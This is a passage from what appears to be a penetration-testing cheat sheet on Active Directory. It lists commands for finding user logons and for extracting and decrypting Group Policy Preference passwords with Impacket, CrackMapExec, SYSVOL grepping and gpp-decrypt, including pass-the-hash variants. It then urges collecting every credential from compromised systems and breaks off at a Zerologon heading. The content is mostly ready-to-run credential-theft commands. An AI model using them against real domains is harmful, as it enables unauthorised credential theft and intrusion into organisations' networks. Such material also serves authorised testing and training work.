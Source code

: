 ### PsLoggedon

```powershell
# To see user logons at remote system of a domain(external tool)
.\PsLoggedon.exe \\<computername>
```

### GPP or CPassword

- Impacket

```bash
# with a NULL session
Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'

# with cleartext credentials
Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

# pass-the-hash (with an NT hash)
Get-GPPPassword.py -hashes :'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

# parse a local file
Get-GPPPassword.py -xmlfile '/path/to/Policy.xml' 'LOCAL'
```

- SMB share - If SYSVOL share or any share which `domain` name as folder name

```bash
#Download the whole share
https://github.com/ahmetgurel/Pentest-Hints/blob/master/AD%20Hunting%20Passwords%20In%20SYSVOL.md
#Navigate to the downloaded folder
grep -inr "cpassword"
```

- Crackmapexec

```bash
crackmapexec smb <TARGET[s]> -u <USERNAME> -p <PASSWORD> -d <DOMAIN> -M gpp_password
crackmapexec smb <TARGET[s]> -u <USERNAME> -H LMHash:NTLMHash -d <DOMAIN> -M gpp_password
```

- Decrypting the CPassword

```bash
gpp-decrypt "cpassword"
```

## **Attacking Active Directory**

<aside>
💡 Make sure you obtain all the relevant credentials from compromised systems, we cannot survive if we don’t have proper creds.

</aside>

### Zerologon
